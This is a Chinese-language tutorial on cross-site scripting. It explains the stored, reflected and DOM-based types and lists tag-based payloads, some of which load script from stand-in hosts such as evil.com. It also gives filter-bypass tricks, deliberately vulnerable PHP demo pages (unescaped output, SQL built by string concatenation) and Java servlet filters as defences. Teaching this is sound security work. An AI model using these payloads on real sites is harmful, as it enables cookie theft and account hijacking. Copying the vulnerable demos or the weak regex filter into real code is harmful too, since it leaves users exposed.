



## XSS(跨站脚本)漏洞详解

1. XSS的原理和分类

    跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。XSS攻击针对的是用户层面的攻击！

    XSS分为：存储型 、反射型 、DOM型XSS

    * 存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie

        

    * 反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面

        

    * DOM型XSS：不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于**反射型XSS**。 

        ```
        document.referer
        window.name
        location
        innerHTML
        documen.write
        ```

        
        如图，我们在URL中传入参数的值，然后客户端页面通过js脚本利用DOM的方法获得URL中参数的值，再通过DOM方法赋值给选择列表，该过程没有经过后端，完全是在前端完成的。所以，我们就可以在我们输入的参数上做手脚了。

2. XSS的攻击载荷

    * \<script\>：最直接的XSS有效载荷，脚本标记可以引用外部的JavaScript代码，也可以将代码插入脚本标记中

        ```
        
        <script src=http://xxx.com/xss.js></script>  #引用外部的xss
        <script> alert("hack")</script>   #弹出hack
        <script>alert(document.cookie)</script> #弹出cookie
        ```
    * \

        ```
        
        
          #弹出cookie
              注：对于数字，可以不用引号
        
        
        
        ```

    * \<body\>：可以使用onload属性或其他更加模糊的属性（如属性）在标记内部传递XSS有效内容background

        ```
        <body onload=alert("XSS")>
        <body background="javascript:alert("XSS")">
        ```

    * \<iframe\>：允许另一个HTML网页的嵌入到父页面。IFrame可以包含JavaScript，但是，请注意，由于浏览器的内容安全策略（CSP），iFrame中的JavaScript无法访问父页面的DOM。然而，IFrame仍然是非常有效的解除网络钓鱼攻击的手段。

        ```
        <iframe src=”http://evil.com/xss.html”>
        ```

    * \<input\>：在某些浏览器中，如果标记的type属性<input>设置为image，则可以对其进行操作以嵌入脚本

        ```
        <input type="image" src="javascript:alert('XSS');">
        ```

    * \<link\>：这是经常被用来连接外部的样式表可以包含的脚本

        ```
        <link rel="stylesheet" href="javascript:alert('XSS');">
        ```

    * \<table\>：可以利用和标签的background属性来引用脚本而不是图像

        ```
        <table background="javascript:alert('XSS')">
        <td background="javascript:alert('XSS')">
        ```

    * \<div\>：类似于\<table\>和\<td\>标签也可以指定一个背景，因此嵌入的脚本。

        ```
        <div style="background-image: url(javascript:alert('XSS'))">
        <div style="width: expression(alert('XSS'));">
        ```

    * \<object\>：该\<object\>标签可用于从外部站点脚本包含

        ```
        <object type="text/x-scriptlet" data="http://hacker.com/xss.html">
        ```

3. XSS可以插在哪里？ 

    1. 用户输入作为HTML注释内容，导致攻击者可以进行闭合绕过

        ```
        <script>alert('hack')</script>
        ```
 
    2. 用户输入作为标签属性名，导致攻击者可以进行闭合绕过

        ```
        <div 用户输入="xx">  </div>
        <div ></div><script>alert('hack')</script><div a="xx"> </div>
        ```

    3. 用户输入作为标签属性值，导致攻击者可以进行闭合绕过

        ```
        <div id="用户输入"></div>
        <div id=""></div><script>alert('hack')</script><div a="x"></div>
        ```

    4. 用户输入作为标签名，导致攻击者可以进行闭合绕过

        ```
        <用户输入  id="xx" />
        <><script>alert('hack')</script><b id="xx" />
        ```
 
    5. 用户输入作为CSS内容，导致攻击者可以进行闭合绕过

        ```
        <style>用户输入<style>
        <style> </style><script>alert('hack')</script><style> </style>
        ```

    最重要的是，千万不要引入任何不可信的第三方JavaScript到页面里！

4. XSS漏洞的挖掘

    * 黑盒测试

        尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

        * URL的每一个参数
        * URL本身
        * 表单
        * 搜索框

        常见业务场景

        * 重灾区：评论区、留言区、个人信息、订单信息等
        * 针对型：站内信、网页即时通讯、私信、意见反馈
        * 存在风险：搜索框、当前目录、图片属性等

    * 白盒测试(代码审计)

        关于XSS的代码审计主要就是从接收参数的地方和一些关键词入手。

        PHP中常见的接收参数的方式有$_GET、$_POST、$_REQUEST等等，可以搜索所有接收参数的地方。然后对接收到的数据进行跟踪，看看有没有输出到页面中，然后看输出到页面中的数据是否进行了过滤和html编码等处理。

        也可以搜索类似echo这样的输出语句，跟踪输出的变量是从哪里来的，我们是否能控制，如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。

        大多数程序会对接收参数封装在公共文件的函数中统一调用，我们就需要审计这些公共函数看有没有过滤，能否绕过等等。

        同理审计DOM型注入可以搜索一些js操作DOM元素的关键词进行审计。

5. XSS的攻击过程

    * 反射型XSS漏洞：

        1. Alice经常浏览某个网站，此网站为Bob所拥有。Bob的站点需要Alice使用用户名/密码进行登录，并存储了Alice敏感信息(比如银行帐户信息)。
        2. Tom 发现 Bob的站点存在反射性的XSS漏洞
        3. Tom编写了一个包含恶意代码的URL，并利用各种手段诱使Alice点击
        4. Alice在登录到Bob的站点后，浏览了 Tom 提供的URL
        5. 嵌入到URL中的恶意脚本在Alice的浏览器中执行。此脚本盗窃敏感信息(cookie、帐号信息等信息)。然后在Alice完全不知情的情况下将这些信息发送给 Tom。
        6. Tom 利用获取到的cookie就可以以Alice的身份登录Bob的站点，如果脚本的功更强大的话，Tom 还可以对Alice的浏览器做控制并进一步利用漏洞控制

    * 存储型XSS漏洞：

        1. Bob拥有一个Web站点，该站点允许用户发布信息/浏览已发布的信息。
        2. Tom检测到Bob的站点存在存储型的XSS漏洞。
        3. Tom在Bob的网站上发布一个带有恶意脚本的热点信息，该热点信息存储在了Bob的服务器的数据库中，然后吸引其它用户来阅读该热点信息。
        4. Bob或者是任何的其他人如Alice浏览该信息之后,Tom的恶意脚本就会执行。
        5. Tom的恶意脚本执行后，Tom就可以对浏览器该页面的用户发动一起XSS攻击
        
    XSS漏洞的危害

    从以上我们可以知道，存储型的XSS危害最大。因为他存储在服务器端，所以不需要我们和被攻击者有任何接触，只要被攻击者访问了该页面就会遭受攻击。而反射型和DOM型的XSS则需要我们去诱使用户点击我们构造的恶意的URL，需要我们和用户有直接或者间接的接触，比如利用社会工程学或者利用在其他网页挂马的方式。

6. XSS漏洞攻击测试

    如果我们的JS水平一般的话，我们可以利用网上免费的XSS平台来构造代码实施攻击。

    XSS漏洞的攻击测试

    1. 反射型XSS

        ```html
        <html>
        <head lang="en">
            <meta charset="UTF-8">
            <title>反射型XSS</title>
        </head>
        <body>
            <form action="action.php" method="post">
                <input type="text" name="name" />
                <input type="submit" value="提交">
            </form>
        </body>
        </html>
        ```

        ```php
        <?php
            $name=$_POST["name"]; 
            echo $name;
        ?>
        ```

        这里有一个用户提交的页面，用户可以在此提交数据，数据提交之后给后台处理

        所以，我们可以在输入框中输入"<script>alert('hack')</script>"，看看会有什么反应
        
        页面直接弹出了hack的页面，可以看到，我们插入的语句已经被页面给执行了。

        这就是最基本的反射型的XSS漏洞，这种漏洞数据流向是： 前端-->后端-->前端

    2. 存储型XSS

        ```html
        <html>
        <head lang="en">
            <meta charset="UTF-8">
            <title>存储型XSS</title>
        </head>
        <body>
            <form action="action2.php" method="post">
                输入你的ID：  <input type="text" name="id" /> <br/>
                输入你的Name：<input type="text" name="name" /> <br/>
                <input type="submit" value="提交">
            </form>
        </body>
        </html>
        ```

        ```php
        <?php
            $id=$_POST["id"];
            $name=$_POST["name"];
            mysql_connect("localhost","root","root");
            mysql_select_db("test");
            
            $sql="insert into xss value ($id,'$name')";
            $result=mysql_query($sql);
        ?>
        ```

        //供其他用户访问页面：show2.php
        ```php
        <?php
            mysql_connect("localhost","root","root");
            mysql_select_db("test");
            $sql="select * from xss where id=1";
            $result=mysql_query($sql);
            while($row=mysql_fetch_array($result)){
                echo $row['name'];
            }
        ?>
        ```

        这里有一个用户提交的页面，数据提交给后端之后，后端存储在数据库中。然后当其他用户访问另一个页面的时候，后端调出该数据，显示给另一个用户，XSS代码就被执行了。

        我们输入"1"和"<script>alert(\'hack\')</script>"

        注意，这里的hack的单引号要进行转义，因为sql语句中的$name是单引号的，所以这里不转义的话就会闭合sql语句中的单引号。不然注入不进去。提交了之后，我们看看数据库

        可以看到，我们的XSS语句已经插入到数据库中了
        然后当其他用户访问 show2.php 页面时，我们插入的XSS代码就执行了。
        存储型XSS的数据流向是：前端-->后端-->数据库-->后端-->前端

    3. DOM型XSS：

        ```html
        <html>
        <head lang="en">
            <meta charset="UTF-8">
            <title>DOM型XSS</title>
        </head>
        <body>
            <form action="action3.php" method="post">
                <input type="text" name="name" />
                <input type="submit" value="提交">
            </form>
        </body>
        </html>
        ```

        ```php
        <?php
        $name=$_POST["name"];
        ?>
        ```

        ```html
        <input id="text" type="text" value="<?php echo $name; ?>"/>
        <div id="print"></div>
        <script type="text/javascript">
        var text=document.getElementById("text");
        var print=document.getElementById("print");
        print.innerHTML=text.value;  // 获取 text的值，并且输出在print内。这里是导致xss的主要原因。
        </script>
        ```

        这里有一个用户提交的页面，用户可以在此提交数据，数据提交之后给后台处理

        我们可以输入""，然后看看页面的变化

        页面直接弹出了 hack 的页面，可以看到，我们插入的语句已经被页面给执行了。
        这就是DOM型XSS漏洞，这种漏洞数据流向是： 前端-->浏览器

7. XSS的过滤和绕过

    前面讲sql注入的时候，我们讲过程序猿对于sql注入的一些过滤，利用一些函数（如：preg_replace()），将组成sql语句的一些字符给过滤，以防止注入。那么，程序猿也可以用一些函数将构成xss代码的一些关键字符给过滤了。可是，道高一尺魔高一丈，虽然过滤了，但是还是可以进行过滤绕过，以达到XSS攻击的目的。

    1. 区分大小写过滤标签

        ```html
        <html>
        <head lang="en">
            <meta charset="UTF-8">
            <title>反射型XSS</title>
        </head>
        <body>
            <form action="action4.php" method="post">
                <input type="text" name="name" />
                <input type="submit" value="提交">
            </form>
        </body>
        </html>
        ```

        ```php
        <?php
        $name=$_POST["name"]; 
        if($name!=null){
            $name=preg_replace("/<script>/","",$name);      //过滤<script>
            $name=preg_replace("/<\/script>/","",$name);   //过滤</script>
            echo $name; 
        }
        ?>
        ```

        绕过技巧：可以使用大小写绕过  <scripT>alert('hack')</scripT>

    2. 不区分大小写过滤标签


        这个和上面的代码一模一样，只不过是过滤的时候多加了一个 i ，以不区分大小写

        ```php
        $name=preg_replace("/<script>/i","",$name);    //不区分大小写过滤 <script>
        $name=preg_replace("/<\/script>/i","",$name);  //不区分大小写过滤 </script>
        ```

        绕过技巧：可以使用嵌套的script标签绕过

        ```
        <scr<script>ipt>alert('hack')</scr</script>ipt>
        ```

    3. 不区分大小写，过滤之间的所有内容

        这个和上面的代码一模一样，只不过是过滤的时候过滤条件发生了变化

        ```php
        $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); //过滤了<script  及其之间的所有内容
        ```

        虽然无法使用\<script\>标签注入XSS代码，但是可以通过img、body等标签的事件或者 iframe 等标签的 src 注入恶意的 js 代码。

        ```html
        payload：  
        ```

        我们可以输入\，然后看看页面的变化

8. XSS的防御

    XSS防御的总体思路是：对用户的输入(和URL参数)进行过滤，对输出进行html编码。也就是对用户提交的所有内容进行过滤，对url中的参数进行过滤，过滤掉会导致脚本执行的相关内容；然后对动态输出到页面的内容进行html编码，使脚本无法在浏览器中执行。

    1. 对输入的内容进行过滤，可以分为黑名单过滤和白名单过滤。
        * 黑名单过滤虽然可以拦截大部分的XSS攻击，但是还是存在被绕过的风险。

        * 白名单过滤虽然可以基本杜绝XSS攻击，但是真实环境中一般是不能进行如此严格的白名单过滤的。

    2. 对输出进行html编码，就是通过函数，将用户的输入的数据进行html编码，使其不能作为脚本运行。
    
        如下，是使用php中的htmlspecialchars函数对用户输入的name参数进行html编码，将其转换为html实体

    #使用htmlspecialchars函数对用户输入的name参数进行html编码，将其转换为html实体
    
    ```php
    $name = htmlspecialchars( $_GET[ 'name' ] );
    ```
        
    XSS跨站脚本攻击在Java开发中防范的方法

    1. 过滤用户输入

        防堵跨站漏洞，阻止攻击者利用在被攻击网站上发布跨站攻击语句不可以信任用户提交的任何内容，首先代码里对用户输入的地方和变量都需要仔细检查长度和对”<”,”>”,”;”,”’”等字符做过滤；其次任何内容写到页面之前都必须加以encode，避免不小心把html tag 弄出来。这一个层面做好，至少可以堵住超过一半的XSS 攻击。

    2. Cookie 防盗

        首先避免直接在cookie 中泄露用户隐私，例如email、密码等等。其次通过使cookie 和系统ip 绑定来降低cookie 泄露后的危险。这样攻击者得到的cookie 没有实际价值，不可能拿来重放。

    3. 尽量采用POST 而非GET 提交表单

        POST 操作不可能绕开javascript 的使用，这会给攻击者增加难度，减少可利用的跨站漏洞。

    4. 严格检查refer

        检查http refer 是否来自预料中的url。这可以阻止第2 类攻击手法发起的http 请求，也能防止大部分第1 类攻击手法，除非正好在特权操作的引用页上种了跨站访问。

    5. 将单步流程改为多步，在多步流程中引入效验码

        多步流程中每一步都产生一个验证码作为hidden 表单元素嵌在中间页面，下一步操作时这个验证码被提交到服务器，服务器检查这个验证码是否匹配。

        首先这为第1 类攻击者大大增加了麻烦。其次攻击者必须在多步流程中拿到上一步产生的效验码才有可能发起下一步请求，这在第2 类攻击中是几乎无法做到的。

    6. 引入用户交互

        简单的一个看图识数可以堵住几乎所有的非预期特权操作。

    7. 只在允许anonymous 访问的地方使用动态的javascript。

    8. 对于用户提交信息的中的img 等link，检查是否有重定向回本站、不是真的图片等可疑操作。

    9. 内部管理网站的问题

        很多时候，内部管理网站往往疏于关注安全问题，只是简单的限制访问来源。这种网站往往对XSS 攻击毫无抵抗力，需要多加注意。安全问题需要长期的关注，从来不是一锤子买卖。XSS 攻击相对其他攻击手段更加隐蔽和多变，和业务流程、代码实现都有关系，不存在什么一劳永逸的解决方案。此外，面对XSS，往往要牺牲产品的便利性才能保证完全的安全，如何在安全和便利之间平衡也是一件需要考虑的事情。

9. web应用开发者注意事项

    1. 对于开发者，首先应该把精力放到对所有用户提交内容进行可靠的输入验证上。这些提交内容包括URL、查询关键字、http头、post数据等。只接受在你所规定长度范围内、采用适当格式、你所希望的字符。阻塞、过滤或者忽略其它的任何东西。

    2. 保护所有敏感的功能，以防被bots自动化或者被第三方网站所执行。实现session标记（session tokens）、CAPTCHA系统或者HTTP引用头检查。

    3. 如果你的web应用必须支持用户提供的HTML，那么应用的安全性将受到灾难性的下滑。但是你还是可以做一些事来保护web站点：确认你接收的HTML内容被妥善地格式化，仅包含最小化的、安全的tag（绝对没有JavaScript），去掉任何对远程内容的引用（尤其是样式表和JavaScript）。为了更多的安全，请使用httpOnly的cookie。

10. XSS跨站脚本攻击漏洞的解决

    1. 解决思路

        1. 控制脚本注入的语法要素。
        
            比如:JavaScript离不开:“<”、“>”、“(”、“）”、“;”...等等，我们只需要在输入或输出时对其进行字符过滤或转义处理就即可。一般我们会采用转义的方式来处理，转义字符是会使用到HTML的原始码，因为原始码是可以被浏览器直接识别的，所以使用起来非常方便。允许可输入的字符串长度限制也可以一定程度上控制脚本注入。

        2. 在Web Server完成过滤、检测、限制等

            所有的过滤、检测、限制等策略建议在Web Server那一端去完成，而不是使用客户端的JavaScript或者VBScript去做简单的检查。因为真正的攻击者可以绕过你精心设计制作的客户端进行过滤、检测或限制手段。

            出于全面的考虑，决定直接在后台进行过滤。

    2. 解决方案：

        新增两个过滤器类：

        ```java
        public class XssFilter implements Filter {
        
            @Override
            public void destroy() {
            }
            /**
            * 过滤器用来过滤的方法
            */
            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                //包装request
                XssHttpServletRequestWrapper xssRequest = new XssHttpServletRequestWrapper((HttpServletRequest) request);
                chain.doFilter(xssRequest, response);
            }
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
            }
        }
        ```

        ```java
        public class XssHttpServletRequestWrapper extends HttpServletRequestWrapper {
            HttpServletRequest orgRequest = null;
        
            public XssHttpServletRequestWrapper(HttpServletRequest request) {
                super(request);
            }
            /**
            * 覆盖getParameter方法，将参数名和参数值都做xss过滤。
            * 如果需要获得原始的值，则通过super.getParameterValues(name)来获取
            * getParameterNames,getParameterValues和getParameterMap也可能需要覆盖
            */
            @Override
            public String getParameter(String name) {
                String value = super.getParameter(xssEncode(name));
                if (value != null) {
                    value = xssEncode(value);
                }
                return value;
            }
            @Override
            public String[] getParameterValues(String name) {
                String[] value = super.getParameterValues(name);
                if(value != null){
                    for (int i = 0; i < value.length; i++) {
                        value[i] = xssEncode(value[i]);
                    }
                }
                return value;
            }
            @Override
            public Map getParameterMap() {
                return super.getParameterMap();
            }
            /**
            * 将容易引起xss漏洞的半角字符直接替换成全角字符 在保证不删除数据的情况下保存
            * @return 过滤后的值
            */
            private static String xssEncode(String value) {
                if (value == null || value.isEmpty()) {
                    return value;
                }
                value = value.replaceAll("eval\\((.*)\\)", "");
                value = value.replaceAll("[\\\"\\\'][\\s]*javascript:(.*)[\\\"\\\']", "\"\"");
                value = value.replaceAll("(?i)<script.*?>.*?<script.*?>", "");
                value = value.replaceAll("(?i)<script.*?>.*?</script.*?>", "");
                value = value.replaceAll("(?i)<.*?javascript:.*?>.*?</.*?>", "");
                value = value.replaceAll("(?i)<.*?\\s+on.*?>.*?</.*?>", "");
                return value;
            }
        }
        ```

        web.xml中添加过滤：

        ```xml
        <filter>
        <filter-name>XssFilter</filter-name>
        <filter-class>XXXXX(该类的路径).XssFilter</filter-class>
        </filter>
        <filter-mapping>
        <filter-name>XssFilter</filter-name>
        <url-pattern>/*</url-pattern>
        </filter-mapping>
        ```

        OK了，需要自定义拦截规则的只要修改XssHttpServletRequestWrapper 类的xssEncode方法即可。

11. web项目解决XSS跨站脚本漏洞

    maven项目解决方式需要配置如下：

    1. web.xml

        ```xml
        <!--防Xss start-->
        <filter>
            <filter-name>XSSChecker</filter-name>
            <filter-class>com.watchme.login.filter.RedSwallowFilterNew</filter-class>
            <init-param>
                <param-name>redswallow.filter.plugin.htmlescapechar.config.includeParamPatterns</param-name>
                <param-value>service,staffId,STAFF_ID,cond_SERIAL_NUMBER,default_pagin_pagesize,EXEC_TIME,FINISH_DATE,sp,Listener,CLIENT_WIDTH,lh_type,listener,ROUTE_VALUE,contextCode,_tradeBase
                </param-value>
            </init-param>
            <init-param>
                <param-name>redswallow.filter.charset</param-name>
                <param-value>GBK</param-value>
            </init-param>
        </filter>
        <filter-mapping>
            <filter-name>XSSChecker</filter-name>
            <url-pattern>/*</url-pattern>
        </filter-mapping>
        
        <filter>
            <filter-name>CharacterFilter</filter-name>
            <filter-class>com.watchme.login.filter.CharacterFilter</filter-class>
            <init-param>
            <param-name>unCheckURLS</param-name>
            <param-value>
                (/.*hotspot/saveHotspot*$)|(/.*product/editProductManager*$)|(/.*product/addProductManager*$)
                |(/.*product/addMarketActivity*$)|(/.*product/editProductManager*$)|(/.*product/addProjectCase*$)
                |(/.*product/editProductManager*$) |(/.*product/productSearchDetail*$)|(/.*product/editProductInfo*$)
                |(/.*\.js$)|(/.*\.css$)|(/.*\.png$)|(/.*\.jpg$)|(/.*\.gif$)|(/.*\.ico$)
            </param-value>
            </init-param>
        </filter>
        <!--防Xss end-->
        ```

    2. pom.xml

        ```xml
        <!--防Xss--> 
        <dependency>  
            <groupId>org.redswallow</groupId>  
            <artifactId>redswallow</artifactId>  
            <version>0.9.1</version>  
        </dependency>
        ```

    3. java类

        ```java
        package com.cs.core.common.filter;
        
        import java.io.IOException;
        import javax.servlet.FilterChain;
        import javax.servlet.FilterConfig;
        import javax.servlet.ServletException;
        import javax.servlet.ServletRequest;
        import javax.servlet.ServletResponse;
        import javax.servlet.http.HttpServletRequest;
        
        import org.redswallow.filter.RedSwallowFilter;
        
        /**
        * @ClassName: RedSwallowFilterNew
        * @Description: XSS过滤器
        * @author 
        */
        public class RedSwallowFilterNew extends RedSwallowFilter
        {
            
            @Override
            public void init(FilterConfig filterConfig)
                throws ServletException
            {
                super.init(filterConfig);
            }
            
            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
                throws IOException, ServletException
            {
                HttpServletRequest httpRequest = (HttpServletRequest)request;
                String url = httpRequest.getRequestURI();
                if (url.indexOf("/ueditor/jsp/")!=-1)
                {
                    System.out.println("hi i come in don't be warry!");
                    chain.doFilter(request, response);
                }
                else
                {
                    super.doFilter(request, response, chain);
                }
            }
            
            @Override
            public void destroy()
            {
                super.destroy();
            }
            
        }
        ```

        ```java
        package com.ailk.jike.common.filter;
        
        import java.io.IOException;
        import java.util.Enumeration;
        import java.util.Map;
        import java.util.StringTokenizer;
        
        import javax.servlet.Filter;
        import javax.servlet.FilterChain;
        import javax.servlet.FilterConfig;
        import javax.servlet.ServletException;
        import javax.servlet.ServletRequest;
        import javax.servlet.ServletResponse;
        import javax.servlet.http.HttpServletRequest;
        
        import com.ailk.jike.common.utils.CheckNull;
        
        /**
        * 部分字符过滤
        */
        public class CharacterFilter implements Filter {
        
            private String unCheckURLS;
        
            @Override
            @SuppressWarnings("unchecked")
            public void doFilter(ServletRequest req, ServletResponse res, FilterChain chain) throws IOException, ServletException {
                HttpServletRequest request = (HttpServletRequest) req;
                request.setCharacterEncoding("UTF-8");
                if (!request.getRequestURI().matches(unCheckURLS)) {
                    Enumeration<String> enumerator = req.getParameterNames();
                    Map<?, ?> pMap = req.getParameterMap();
                    while (enumerator.hasMoreElements()) {
                        String paraName = enumerator.nextElement();
                        String[] value = (String[]) pMap.get(paraName);
                        if (value.length == 0) {
                            continue;
                        }
                        for (int i = 0; i < value.length; i++) {
                            value[i] = filterString(value[i]);
                        }
                    }
                }
                chain.doFilter(req, res);
            }
        
            @Override
            public void init(FilterConfig filterconfig) throws ServletException {
                StringBuffer result = new StringBuffer();
                for (StringTokenizer token = new StringTokenizer(filterconfig.getInitParameter("unCheckURLS"), "\n"); token
                        .hasMoreTokens(); result.append(token.nextToken().trim()));
                unCheckURLS = result.toString();
            }
        
            @Override
            public void destroy() {
            }
        
            /**
            * 过滤字符集
            * 
            * @param inputStr
            *            需要过滤的字符串
            * @return 过滤后的字符串
            */
            private String filterString(String inputStr) {
            
            if(CheckNull.isNull(inputStr)){
                return inputStr;
            }
                inputStr = convertHtmlZy(inputStr);
                StringBuffer sb = new StringBuffer();
                for (int i = 0; i < inputStr.length(); i++) {
                    char aChar = inputStr.charAt(i);
                    switch (aChar) {
                        case '>':
                            sb.append('＞');// 全角大于号
                            break;
                        case '<':
                            sb.append('＜');// 全角小于号
                            break;
                    /* case '\'':
                            sb.append('‘');// 全角单引号
                            break;
                        case '\"':
                            sb.append('“');// 全角双引号
                            break;*/
                        case '&':
                        sb.append('＆');// 全角
                        break;
                    /* case '[':
                            sb.append('【');// 全角
                            break;
                        case ']':
                            sb.append('】');// 全角
                            break;*/
                        // case '\\':
                        // sb.append('＼');// 全角斜线
                        // break;
                        /*case '#':
                            sb.append('＃');// 全角井号
                            break;
                        case ';':
                            sb.append('；');// ;转化为；
                            break;*/
                        default:
                            sb.append(aChar);
                            break;
                    }
                }
                return sb.toString();
            }
        
            /**
            * 将转义字符转换成相应的广角字符
            * 
            * @param inputStr
            * @return
            */
            public String convertHtmlZy(String inputStr) {
                if (!CheckNull.isNull(inputStr)) {
                    String temp = inputStr.toLowerCase();
                    if (-1 != temp.indexOf("&amp")) {
                        temp = temp.replaceAll("&amp", "＆");
                    } else if (-1 != temp.indexOf("&gt")) {
                        temp = temp.replaceAll("&gt", "＞");
                    } else if (-1 != temp.indexOf("&lt")) {
                        temp = temp.replaceAll("&lt", "＜");
                    } else if (-1 != temp.indexOf("&quot")) {
                        temp = temp.replaceAll("&quot", "“");
                    } else if (-1 != temp.indexOf("&apos")) {
                        temp = temp.replaceAll("&apos", "‘");
                    } else {
                        temp = inputStr;
                    }
                    return temp;
        
                }
                return inputStr;
        
            }
        }
        ```